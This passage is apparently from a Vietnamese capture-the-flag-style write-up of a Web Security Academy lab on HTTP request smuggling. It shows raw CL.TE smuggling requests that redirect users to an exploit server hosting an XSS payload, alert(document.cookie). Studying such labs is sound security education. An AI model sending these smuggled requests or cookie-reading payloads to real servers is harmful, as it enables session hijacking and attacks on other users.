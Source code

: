 ```
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Content-Length: 134
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

0

GET /post/next?postId=2 HTTP/1.1
Host: abc.com
Content-Length: 10
Content-Type: application/x-www-form-urlencoded
Foo: x

a

```
>![image](https://hackmd.io/_uploads/SytbR8Iu0.png)

>Ta sẽ tạo payload XSS `alert(document.cookie)` tại đường dẫn `/post` của exploit-server
>![image](https://hackmd.io/_uploads/HJ7HRI8_R.png)

>Thay đổi `Host` sang exploit server. Send lại request 2 lần và đã redirect về exploit server thành công: 
```
POST / HTTP/1.1
Host: 0a63002a0341ddf680c5dacf003800b4.web-security-academy.net
Sec-Ch-Ua: "Not/A)Brand";v="8", "Chromium";v="126"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Content-Length: 186
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

0

GET /post/next?postId=2 HTTP/1.1
Host: exploit-0aee00390393ddd28049d95c016e00c4.exploit-server.net
Content-Length: 10
Content-Type: application/x-www-form-urlencoded
Foo: x

a

```
>![image](https://hackmd.io/_uploads/ry6TR8UuR.png)
